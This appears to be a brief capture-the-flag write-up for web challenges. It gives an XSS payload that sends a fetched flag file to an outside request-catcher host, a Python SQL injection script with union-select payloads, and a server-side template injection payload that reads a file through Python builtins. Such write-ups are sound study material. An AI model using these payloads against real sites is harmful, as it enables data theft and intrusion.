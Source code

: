 <h1> Markdown </h1>

Basic XSS. 

<img src=x onerror="fetch(`/flag.txt`).then(r=>r.text()).then(r=>fetch(`test.requestcatcher.com?x={encodeURIcomponent(r)}`))">

<h1> Store </h1>

Basic sqli

```
import requests

data = {
    # "item": "' union select '1', '1',(select group_concat(sql) from sqlite_master);-- -",
    "item": "' union select '1', '1',(select flag from flags54e9efdb2f705acee5bd9b30201bae01);-- -",
    # "item": "' union select '1', (select group_concat(name) from items), (select group_concat(detail) from items);-- -",
}

response = requests.post("https://store.web.actf.co/search", data=data)

print(response.text)
print(response.status_code)
```

<h1> Winds </h1>

Basic SSTI but your payload is jumbled before being passed to render_template_string() but good for us we got the seed

```
    random.seed(0)
    jumbled = list(text)
    random.shuffle(jumbled)
    jumbled = ''.join(jumbled)
```

To get text which would create actual payload when jumbled:

```
target_str = "{{self.__init__.__globals__.__builtins__.open('flag.txt').read()}}"
list_str = list(target_str)
random.seed(0)
random.shuffle(list_str)
new_str = ''.join(list_str)
while new_str != target_str:
  copy_str = new_str
  random.seed(0)
  list_str = list(new_str)
  random.shuffle(list_str)
  new_str = ''.join(list_str)
  print(new_str)
  
```

<h1> Pastebin </h1>

We have partial hashed password like: `Incorrect parameter &password=1797c2...`
Tried to understand but will take some time to understand completly.

<h1> Watermark </h1>

https://alfinj0se.github.io/posts/angstromctf2024/